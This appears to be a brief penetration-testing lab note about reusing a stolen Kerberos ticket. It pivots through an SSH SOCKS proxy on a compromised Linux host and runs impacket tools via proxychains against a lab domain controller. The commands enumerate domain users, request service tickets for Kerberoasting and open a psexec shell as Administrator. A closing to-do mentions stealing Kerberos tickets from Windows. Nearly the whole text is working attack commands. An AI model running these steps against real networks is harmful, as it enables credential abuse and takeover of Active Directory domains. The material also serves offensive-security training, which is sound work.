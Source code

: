 We need to have the same source IP to use TGT, that is why we need the socks proxy:
#socks-proxy #socket  #config 
```bash
# Comment proxy_dns in the /etc/proxychains.conf - the socks is set to the localhost 1080
# Run ssh socks proxy:
ssh offsec@linuxvictim -D 1080 -N
```
Then you can use proxychains to execute impacket scripts:
#socks-proxy #AD #kerberos 
```bash
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.186.5 CORP1.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.186.5 CORP1.COM/Administrator
proxychains impacket-psexec Administrator@DC01.CORP1.COM -k -no-pass
```

To-do - steal keberos ticket from windows, convert to the krb5cc format.
